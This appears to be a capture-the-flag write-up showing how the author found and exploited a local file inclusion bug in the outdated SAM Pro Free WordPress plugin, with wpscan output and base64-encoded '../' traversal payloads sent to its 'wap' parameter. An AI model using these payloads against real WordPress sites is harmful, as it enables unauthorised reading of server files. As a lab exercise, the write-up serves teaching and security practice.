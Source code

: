 # What The LFI ?

![](./img/1.png#center)

![](./img/2.png#center)

So the website is a wordpress and we are searching for a LFI. First thing I search for links where the LFI could be :

http://54.201.224.15:14099/?p=1

http://54.201.224.15:14099/?cat=1

http://54.201.224.15:14099/?s=test

And I try basic LFI like this :

http://54.201.224.15:14099/?p=/var/www/blah.php

http://54.201.224.15:14099/?p=http://google.fr

We are just redirect, on the index page. Our LFI might not be here, let’s try a wpscan since it’s a wordpress. Command :

wpscan 54.201.224.15:14099

Result :

![](./img/3.png#center)

Interesting there is a plugin not up to date, and there is the LFI.

The scan gives us the location and some reference. Let’s check the reference. We have a Proof of Concept in this one :

[Link]( https://www.pluginvulnerabilities.com/2016/10/28/local-file-inclusion-lfi-vulnerability-in-sam-pro-free-edition/)

We can see that the link “wap” is base64, so let’s base64 our path :

/var/www/blah.php → L3Zhci93d3cvYmxhaC5waHAK

http://54.201.224.15:14099/wp-content/plugins/sam-pro-free/

Url :

http://54.201.224.15:14099/wp-content/plugins/sam-pro-free/sam-pro-ajax-admin.php?action=NA&wap=L3Zhci93d3cvYmxhaC5waHAK

Result :

![](./img/4.png#center)

It’s not working because we are in the wrong directory, let’s change it by :

../../../../blah.php → Li4vLi4vLi4vLi4vYmxhaC5waHA=

Final url :

http://54.201.224.15:14099/wp-content/plugins/sam-pro-free/sam-pro-ajax-admin.php?action=NA&wap=Li4vLi4vLi4vLi4vYmxhaC5waHA=

> The flag : flag{dont_include_files_derived_from_user_input_kthx_bai}
